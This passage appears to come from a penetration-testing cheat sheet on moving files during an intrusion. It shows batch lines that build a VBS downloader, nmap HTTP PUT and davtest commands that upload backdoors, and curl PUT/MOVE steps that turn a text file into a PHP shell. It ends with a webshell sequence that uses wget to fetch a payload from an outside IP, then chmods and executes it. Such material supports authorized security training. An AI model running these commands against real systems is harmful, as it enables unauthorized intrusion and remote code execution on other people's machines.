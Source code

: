          echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs
         timeout 1
         echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
         timeout 1
         echo end with >> webdl.vbs
         timeout 1
         echo

      The file can be run using the following syntax:
      
      `C:\temp\cscript.exe webdl.vbs`
      
-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   SCP
    
        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
        
        scp localfile username@$ip:~/Folder/
        
        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
        

    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
    
        `davtest -move -sendbd auto -url http://$ip`
      
        https://github.com/cldrn/davtest
        
        You can also upload a file using the PUT method with the curl command:
        
        `curl -T 'leetshellz.txt' 'http://$ip'`
        
        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php
